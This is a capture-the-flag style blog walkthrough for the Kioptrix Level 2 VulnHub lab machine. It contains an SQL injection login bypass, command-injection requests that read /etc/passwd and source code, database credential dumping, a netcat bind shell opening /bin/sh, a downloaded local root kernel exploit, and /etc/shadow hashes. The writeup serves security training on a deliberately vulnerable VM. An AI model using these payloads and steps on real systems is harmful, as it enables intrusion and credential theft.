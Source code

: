 ```yaml
---
layout: post
title: "Kioptrix: Level 2"
date: 2015-05-11 19:15:08 +0200
comments: true
categories: [vulnhub, kioptrix]
---
```

Image: [Kioptrix: Level 1.1 (#2)](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)

Nmap output:
{% codeblock %}
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
111/tcp  open  rpcbind  2 (RPC #100000)
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
631/tcp  open  ipp      CUPS 1.1
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:53:19:4C (VMware)
{% endcodeblock %}

We connect to the web page and log in using username / password (SQLi):
{% codeblock %}
test' or '1'='1
{% endcodeblock %}

Now we got the access to the "Basic Administrative Web Console". Trying command
injection, we found out that we can inject arbitrary command and execute under
web user privileges.

Request / response example:
{% codeblock %}
POST /pingit.php HTTP/1.1
Host: 192.168.80.144
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:37.0) Gecko/20100101 Firefox/37.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.80.144/index.php
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 45

ip=127.0.0.1 %26%26 cat /etc/passwd&submit=submit
{% endcodeblock %}

{% codeblock %}
HTTP/1.1 200 OK
Date: Sat, 09 May 2015 15:02:56 GMT
Server: Apache/2.0.52 (CentOS)
X-Powered-By: PHP/4.3.9
Content-Length: 2187
Connection: close
Content-Type: text/html; charset=UTF-8

127.0.0.1 && cat /etc/passwd<pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.008 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.015 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.015 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1999ms
rtt min/avg/max/mdev = 0.008/0.012/0.015/0.005 ms, pipe 2
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
rpm:x:37:37::/var/lib/rpm:/sbin/nologin
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
netdump:x:34:34:Network Crash Dump user:/var/crash:/bin/bash
nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
pcap:x:77:77::/var/arpwatch:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
squid:x:23:23::/var/spool/squid:/sbin/nologin
webalizer:x:67:67:Webalizer:/var/www/usage:/sbin/nologin
xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
pegasus:x:66:65:tog-pegasus OpenPegasus WBEM/CIM services:/var/lib/Pegasus:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
john:x:500:500::/home/john:/bin/bash
harold:x:501:501::/home/harold:/bin/bash
</pre>
{% endcodeblock %}

Web server fingerprints:
{% codeblock %}
+ Server: Apache/2.0.52 (CentOS)
+ Retrieved x-powered-by header: PHP/4.3.9
{% endcodeblock %}

We don't have writable access under DocumentRoot. Looking to different
directories, we found the netcat source remains.
{% codeblock %}
drwxrwxrwx  7 100 users 4096 Oct  8  2009 /usr/src/netcat-0.7.1
drwxrwxrwx  3 100 users 4096 Oct  8  2009 /usr/src/netcat-0.7.1/doc
drwxrwxrwx  2 100 users 4096 Oct  8  2009 /usr/src/netcat-0.7.1/doc/drafts
drwxrwxrwx  2 100 users 4096 Oct  8  2009 /usr/src/netcat-0.7.1/po
drwxrwxrwx  3 100 users 4096 Oct  8  2009 /usr/src/netcat-0.7.1/lib
drwxrwxrwx  2 100 users 4096 Oct  8  2009 /usr/src/netcat-0.7.1/lib/contrib
drwxrwxrwx  2 100 users 4096 Oct  8  2009 /usr/src/netcat-0.7.1/src
drwxrwxrwx  2 100 users 4096 Oct  8  2009 /usr/src/netcat-0.7.1/m4
drwxrwxr-x  5 root sys 4096 Oct  7  2009 /etc/cups
drwxr-xrwx  4 root root 4096 May  9 12:11 /tmp
drwxrwxrwt  2 root root 4096 May  9 10:17 /tmp/.ICE-unix
drwxrwxrwt  2 root root 4096 May  9 10:18 /tmp/.font-unix
{% endcodeblock %}

So there should be netcat installed, we will need this information later. 

We can read index.php for mysql credentials:
{% codeblock %}
ip=127.0.0.1 %26%26 cat index.php&submit=submit
..
<?php
	mysql_connect("localhost", "john", "hiroshima") or die(mysql_error());
	//print "Connected to MySQL<br />";
	mysql_select_db("webapp");
	
	if ($_POST['uname'] != ""){
		$username = $_POST['uname'];
		$password = $_POST['psw'];
		$query = "SELECT * FROM users WHERE username = '$username' AND password='$password'";
		//print $query."<br>";
		$result = mysql_query($query);

		$row = mysql_fetch_array($result);
		//print "ID: ".$row['id']."<br />";
	}

?>
{% endcodeblock %}

The john's password doesn't work for ssh, but at least we can extract more from
mysql database:
{% codeblock %}
ip=127.0.0.1 %26%26 echo show databases|mysql -ujohn -phiroshima&submit=submit
Database
mysql
test
webapp

ip=127.0.0.1 %26%26 echo 'use webapp; show tables'|mysql -ujohn -phiroshima&submit=submit

id	username	password
1	admin	5afac8d85f
2	john	66lajGGbla
{% endcodeblock %}

Again, the passwords don't work for ssh. 

We find netcat and use it to bind a shell, then we try to root the box:
{% codeblock %}
ip=127.0.0.1 %26%26 find / -iname \*netcat\*&submit=submit
..
/usr/share/zsh/4.2.0/functions/_netcat
/usr/local/info/netcat.info
/usr/local/share/locale/sk/LC_MESSAGES/netcat.mo
/usr/local/share/locale/it/LC_MESSAGES/netcat.mo
/usr/local/man/man1/netcat.1
/usr/local/bin/netcat
/usr/src/netcat-0.7.1
/usr/src/netcat-0.7.1/doc/netcat.1
/usr/src/netcat-0.7.1/doc/netcat.info
/usr/src/netcat-0.7.1/doc/netcat.texi
/usr/src/netcat-0.7.1/doc/netcat.pod
/usr/src/netcat-0.7.1/po/netcat.pot
/usr/src/netcat-0.7.1/src/netcat.c
/usr/src/netcat-0.7.1/src/netcat.h
/usr/src/netcat-0.7.1/src/netcat.o
/usr/src/netcat-0.7.1/src/netcat
{% endcodeblock %}

{% codeblock %}
ip=127.0.0.1 %26%26 /usr/local/bin/netcat -e /bin/sh -l -p 1337&submit=submit
{% endcodeblock %}

{% codeblock %}
root@kali32:/var/www# nc 192.168.80.144 1337

id
uid=48(apache) gid=48(apache) groups=48(apache)

uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
{% endcodeblock %}

Luckily, exploitdb contains local root exploit with exactly this version of kernel:
{% codeblock %}
root@kali32:/usr/share/exploitdb# grep -irn '2.6.9-55.EL' *
platforms/linux/local/9542.c:7:** CentOS 4.4(2.6.9-42.ELsmp), CentOS 4.5(2.6.9-55.ELsmp),
{% endcodeblock %}

As our last step, we download and compile this exploit
https://www.exploit-db.com/exploits/9542/ .

{% codeblock %}
cd /tmp/
wget https://www.exploit-db.com/download/9542 -O 9542.c --no-check-certificate

gcc 9542.c
./a.out
sh: no job control in this shell
sh-3.00# id
uid=0(root) gid=0(root) groups=48(apache)
sh-3.00# 

sh-3.00# cat /etc/shadow
root:$1$FTpMLT88$VdzDQTTcksukSKMLRSVlc.:14529:0:99999:7:::
bin:*:14525:0:99999:7:::
daemon:*:14525:0:99999:7:::
adm:*:14525:0:99999:7:::
lp:*:14525:0:99999:7:::
sync:*:14525:0:99999:7:::
shutdown:*:14525:0:99999:7:::
halt:*:14525:0:99999:7:::
mail:*:14525:0:99999:7:::
news:*:14525:0:99999:7:::
uucp:*:14525:0:99999:7:::
operator:*:14525:0:99999:7:::
games:*:14525:0:99999:7:::
gopher:*:14525:0:99999:7:::
ftp:*:14525:0:99999:7:::
nobody:*:14525:0:99999:7:::
dbus:!!:14525:0:99999:7:::
vcsa:!!:14525:0:99999:7:::
rpm:!!:14525:0:99999:7:::
haldaemon:!!:14525:0:99999:7:::
netdump:!!:14525:0:99999:7:::
nscd:!!:14525:0:99999:7:::
sshd:!!:14525:0:99999:7:::
rpc:!!:14525:0:99999:7:::
mailnull:!!:14525:0:99999:7:::
smmsp:!!:14525:0:99999:7:::
rpcuser:!!:14525:0:99999:7:::
nfsnobody:!!:14525:0:99999:7:::
pcap:!!:14525:0:99999:7:::
apache:!!:14525:0:99999:7:::
squid:!!:14525:0:99999:7:::
webalizer:!!:14525:0:99999:7:::
xfs:!!:14525:0:99999:7:::
ntp:!!:14525:0:99999:7:::
pegasus:!!:14525:0:99999:7:::
mysql:!!:14525::::::
john:$1$wk7kHI5I$2kNTw6ncQQCecJ.5b8xTL1:14525:0:99999:7:::
harold:$1$7d.sVxgm$3MYWsHDv0F/LP.mjL9lp/1:14529:0:99999:7:::
sh-3.00# 
{% endcodeblock %}
